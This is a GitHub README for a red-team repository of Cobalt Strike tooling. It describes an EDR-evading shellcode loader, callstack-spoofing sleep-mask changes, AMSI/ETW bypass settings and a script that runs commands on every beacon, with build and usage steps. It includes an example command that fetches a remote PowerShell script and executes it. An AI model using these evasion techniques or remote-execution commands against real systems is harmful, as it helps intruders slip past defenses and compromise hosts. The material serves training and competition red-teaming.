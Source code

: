 # Cobalt Strike Resources
Various resources to enhance Cobalt Strike's functionality and its ability to evade antivirus/EDR detection. Includes the custom tooling I used when pursuing the Certified Red Team Lead (CRTL) certification.

### Contents
#### Loader
- [loader](loader/) ⇒ used to bypass Windows Defender and Elastic EDR detections to run Cobalt Strike beacon shellcode `<protocol>_x64.xprocess.bin`
  - uses NtMapViewOfSection technique for shellcode injection
  - spawns and injects into msedge.exe by default, though you could easily change this
#### Profile
- [crtl.profile](profile/crtl.profile) ⇒ malleable C2 profile used on CRTL exam, based on [webbug.profile](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/webbug.profile)
- [mwccdc.profile](profile/mwccdc.profile) ⇒ malleable C2 profile used for MWCCDC regionals in 2024, based on [microsoftupdate_getonly.profile](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/microsoftupdate_getonly.profile)
#### Kits
- [sleepmask](kits/sleepmask/) ⇒ Cobalt Strike sleep mask kit modifications to spoof legitimate msedge.exe thread callstack
- [process_inject](kits/process_inject/) ⇒ Cobalt Strike process injection kit modifications that implement NtMapViewOfSection technique - not necessary since this option is available in the malleable C2 profile, but it's a good example of how to use kernel32.dll and ntdll.dll Windows API function calls to create your own injection. I found concrete examples of this to be severely lacking on the internet.
#### Post-Ex
- [powerpick.cs](post-ex/powerpick.cs) ⇒ C# code for running unmanaged PowerShell, providing the PowerShell command as an argument(s) - compatible with inline-x.cna
- [inline-x.cna](post-ex/inline-x.cna) ⇒ modified [inlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly) cna file that makes running .NET assemblies and PowerShell inline easier
- [command-all.cna](post-ex/command-all.cna) ⇒ execute `run` or `shell` command on *all* active Cobalt Strike beacons, without having to interact with each one individually

**Note:** When building powerpick.cs, you'll have to add a reference to **System.Management.Automation.dll**, which is located in `C:\Program Files (x86)\Reference Assemblies\Microsoft\WindowsPowerShell\<version>`

### Loader Usage
#### Two executable types:
1. EXE ⇒ standard Windows executable
2. Service ⇒ Windows service executable

**Note:** beaconsvc.cpp gets caught by Elastic static detection when compiled, so you might have to modify it. You can also run the standard EXE as a service, and it'll throw an error but still spawn the beacon.
#### Three loader variants:
1. Download Stager ⇒ download shellcode from file hosted on Cobalt Strike team server over HTTPS
2. Read Stager ⇒ read shellcode from disk, by default C:\Windows\beacon.bin but you can change this
3. Stageless ⇒ include shellcode directly in PE as a resource (in .rsrc section) - requires encoding the shellcode so it's not caught by EDR
#### Building the loader
1. (stageless only) generate encoded Cobalt Strike shellcode file with [encoder.py](loader/helpers/encoder.py) - see comments for more info
2. open [.sln](loader/loader.sln) file in [Visual Studio](https://visualstudio.microsoft.com/free-developer-offers/)
3. (stageless only) follow instructions in [encoder.py](loader/helpers/encoder.py) to include encoded shellcode file as a resource
4. select your desired build
5. Build Solution

### Inline X Usage
1. Change `$powerpickPath` to specify the path of your unmanaged PowerShell exe (built from [powerpick.cs](post-ex/powerpick.cs))
2. Change `$etw` and `$amsi` as you see fit - I wanted it to always bypass AMSI and ETW, which is why I set these values to 1
3. [Load script](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_cs-scripting.htm) into Cobalt Strike
4. Execute .NET assembly inline with `x execute-assembly <exe> <args>`
5. Execute unmanaged powershell inline with `x powerpick <powershell>`
   - I made this compatible with `powershell-import`, but I noticed that using this method of importing scripts generally gets detected by EDR. If you'd like to remove this functionality altogether, comment/remove lines 257 and 258.
   - As an alternative, use `--import <script>` (eg. `x --import https://example.com/PowerView.ps1 powerpick Get-Domain`). You can specify a local file on disk or remotely hosted file with http/https. This only supports *one* script. I'm too lazy to extend the functionality to support multiple scripts when one is usually all you need.

**Note:** I commented out the portions of the script that parse arguments in single (') and double quotes (") as a single argument because most of my tooling handles or requires these quotes. For example, the unmanaged PowerShell implementation [powerpick.cs](post-ex/powerpick.cs) takes arguments passed in, converts them to one string, and runs that string. Treating multiple words as a single argument in PowerShell commands thus requires passing in those quotes as-is. You may run into instances where you *do* need to parse arguments in quotes as a single argument, much like you would when running the .NET executable in a terminal. If this is the case, you are welcome to uncomment the code portions starting on line 87 and reload the script.

### Command All Usage
1. [Load script](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_cs-scripting.htm) into Cobalt Strike
2. Open Script Console
3. Execute `run` on all active beacons with `run_all <exe> <args>`
4. Execute `shell` on all active beacons with `shell_all <command>`

### Credit
My experience with AV/EDR evasion techniques and Cobalt Strike comes from the following:
- [Zero-Point Security Red Team Ops II](https://training.zeropointsecurity.co.uk/courses/red-team-ops-ii)
- [Maldev Academy](https://maldevacademy.com)
- [Midwest Regional Collegiate Cyber Defense Competition](https://www.cssia.org/mwccdc/) (I'm a red team volunteer)

I also recommend checking out the [Sektor7 Institute](https://institute.sektor7.net) courses

### Copyright Disclaimer
I was careful to avoid any copyright infringement with the resources I publicly provided in this repo. Here are two areas where copyright might come into question:
1. I include my modifications to the Cobalt Strike process injection and sleep mask kits from Fortra, which are closed-source. However, I only provided files to which I made modifications, and I replaced all portions of the code that were not my own with a comment stating *redacted*. Should you choose to use these resources, you'll have to copy my code portions over from this repo to the corresponding files in the kits.
2. In my loader, I included code taken directly from the Zero-Point Security Red Team Ops II course. However, this code is publicly available and easily-obtainable online as well. Telling ChatGPT to "write C++ code using WinHTTP to download a file and save it to an std::vector\<BYTE\>" yields almost the exact same code for the Download function, and the NtMapViewOfSection technique is [publicly documented](https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection) in various locations, making use of the same Windows API function calls in the same order.
